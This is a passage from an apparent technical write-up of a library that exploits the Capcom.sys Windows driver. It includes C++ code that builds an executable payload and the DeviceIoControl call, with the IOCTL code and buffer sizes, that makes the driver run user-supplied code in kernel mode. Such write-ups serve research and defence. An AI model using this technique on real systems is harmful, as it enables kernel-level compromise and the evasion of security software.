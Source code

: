 Putting it all together, we get the following function:
```cpp
capcom_payload* build_capcom_payload(uintptr_t user_function_wrapper) 
{
    // allocate a page of executable memory for our payload
    capcom_payload* final_payload = (capcom_payload*)VirtualAlloc(nullptr, sizeof(capcom_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // copy our code template into the executable page
    memcpy(final_payload->code, code_template, sizeof(code_template));

    // fill this member to point to the actual code buffer (as required by capcom)
    final_payload->ptr_to_code = final_payload->code; 

    // fill in the function pointer that will be copied into rax, then jmp'd to
    *(uintptr_t*)(final_payload->code + user_function_ptr_offset) = (uintptr_t)user_function_wrapper; 

    return final_payload;
}
```

### Sending the payload to the Capcom driver
In the analysis of ```sub_10590``` above, there are quite a few checks that must pass in order for our usermode code to be called. Recall the following:
* Check to see if the IRP packet has proper sizes. If for a 32-bit request, the input and output buffer sizes **must be 4**. If for a 64-bit request, the input buffer size **must be 8** AND the output buffer size **must be 4**

In this library's implementation, it only deals with the 64-bit variant of the driver. Communicating with the driver involves the WinAPI function ```DeviceIoControl```, which takes a variety of parameters. Here is the function prototype as defined by MSDN:
```cpp
BOOL WINAPI DeviceIoControl(
  _In_        HANDLE       hDevice,
  _In_        DWORD        dwIoControlCode,
  _In_opt_    LPVOID       lpInBuffer,
  _In_        DWORD        nInBufferSize,
  _Out_opt_   LPVOID       lpOutBuffer,
  _In_        DWORD        nOutBufferSize,
  _Out_opt_   LPDWORD      lpBytesReturned,
  _Inout_opt_ LPOVERLAPPED lpOverlapped
);
```

* ```dwIoControlCode``` must be equal to ```0xAA013044```
* ```nInBufferSize``` must be equal to ```8```
* ```nOutBufferSize``` must be equal to ```4```

Putting this together, the code in ```capcom_wrapper.cpp``` calls:  
```cpp
DeviceIoControl(device, ioctl_x64, &payload->ptr_to_code, 8, &output_buffer, 4, &bytes_returned, nullptr)
```
